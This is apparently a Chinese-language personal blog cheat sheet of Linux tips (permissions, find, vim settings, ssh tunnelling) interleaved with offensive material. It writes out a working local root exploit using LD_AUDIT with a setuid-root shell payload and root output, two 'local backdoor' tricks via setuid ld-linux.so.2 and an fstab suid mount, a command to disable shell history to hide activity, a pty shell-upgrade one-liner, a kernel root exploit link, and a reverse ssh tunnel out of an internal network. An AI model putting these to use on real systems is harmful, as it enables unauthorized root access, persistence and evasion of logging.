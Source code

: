 ```yaml
---
layout: post
title: "Linux基础汇总"
---
```


## Linux基础汇总


* suid/guid

	suid意味着如果A用户对属于他自己的shell脚本文件设置了这种权限，那么其他用户在执行这个脚本的时候就拥有了A用户的权限。所以，如果 root用户对某一脚本设置了这一权限的话则其他用户执行该脚本的时候则拥有了root用户权限。同理，guid意味着执行相应脚本的用户则拥有了该文件所属用户组中用户的权限。

	给文件加suid和sgid的命令如下：

	    chmod u+s filename 设置suid位
	    chmod u-s filename 去掉suid设置
	    chmod g+s filename 设置sgid位
	    chmod g-s filename 去掉sgid设置

* find / -type f -perm /u+s -ls

	-perm #按执行权限来查找  
	-type b/d/c/p/l/f #查是块设备、目录、字符设备、管道、符号链接、普通文件
	
* find ./ -name ‘*.java’ -exec grep -i “ABCD” {} \; -print 在当前路径不区分大小写查找所有*.java的文件里面含有”ABCD”的内容行，并且print出来文件的路径

* find /web/htdocs -type f -name "*.php" |xargs grep "eval(" > /tmp/test.txt

* Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

	[http://www.lengmo.net/post/1380]

* 本地后门2法 xi4oyu

	1.
	
	    cd /lib
	    chmod +s ld-linux.so.2
	    /lib/ld-linux.so.2 `which whoami`

	2.
	
	    chmod a+w /etc/fstab
	    echo 'test /mnt ext2 user,suid,exec,loop 0 0' >> /etc/fstab
	    chown root.root setuid
	    chmod u+s setuid
	    mount test
	    cd /mnt

* ssh的history处理 & 日至相关

	    export HISTFILE=/dev/null

	ssh日志默认保存在 /var/log/secure文件里
	
* python -c 'import pty; pty.spawn("/bin/sh")'
	
* exp

	    $ mkdir /tmp/exploit
	    $ ln /bin/ping /tmp/exploit/target
	    $ exec 3< /tmp/exploit/target
	    $ ls -l /proc/$$/fd/3
	    $ rm -rf /tmp/exploit/
	    $ cat > payload.c
	    void __attribute__((constructor)) init()
	    {
	        setuid(0);
	        system("/bin/bash");
	    }
	    ^D
	    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
	    $ ls -l /tmp/exploit
	    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
	    sh-4.1# whoami
	    root
	    sh-4.1# id
	    uid=0(root) gid=500(taviso)

* 自己建立ipkg feed服务器

	[http://www.oesf.org/index.php?title=Setting_Up_A_Feed ipkg-make-index.sh]
	
	[http://buffalo.nas-central.org/wiki/Construct_ipkg_packages_(for_developers)]
	
	gzip -9c Packages > Packages.gz


* 连接godaddy的ftp需要用passive模式。ftp之后，运行passive

* C库（glibc）  
	glibc是个C库，几乎所有的应用程序都需要共享它提供的功能（除了kernel、bootload、和其它完全不用C库的功能代码），因此glibc的存在有利益小系统或嵌入系统缩减系统总代码尺寸与存放空间（尽管单个的glibc库是比较大的）。所以，最后的工作就是：构造ARM交叉编译系统的glibc库。

* ubuntu相关  
	sudo apt-get install language-support-zh  
	hello

* .vimrc编写指南  
	set nocp #该命令指定让 VIM 工作在不兼容模式下  
	set ru #该命令打开 VIM 的状态栏标尺。  
	set hls #搜索时高亮显示被找到的文本。  
	syntax on #打开关键字上色。  
	set backspace=indent,eol,start #字母删除问题  
	set whichwrap=b,s,<,>,[,] #光标跳转  

* linux下使用tar和ssh压缩传输文件

	    ssh username@remoteip "cd /some/path/; tar czf - path" | tar xvzf -#压缩传输
	    tar cvzf - /path/ | ssh username@remoteip "cd /some/path/; tar xvzf -" #压缩传输一个目录并解压

* ssh sock

	    ssh username@my_host_ip_address -D 7070
	    ssh -N -L 5555:202.202.202.1:22 admin@101.101.101.1
	    ssh -N -D 7070 user@localhost -p 555
	>内网运行：ssh -f -N -R 10000:localhost:22 username@反连的外网ip也就是说，在主控端10000端口和被控端的22端口上建立了一个通道。-R [listen-IP:]listen-port:host:portForward remote port to local address外网ip运行：ssh username@localhost -p 10000

* 未完待续

* 中文

* 问题  

* 是吗

* 不是a




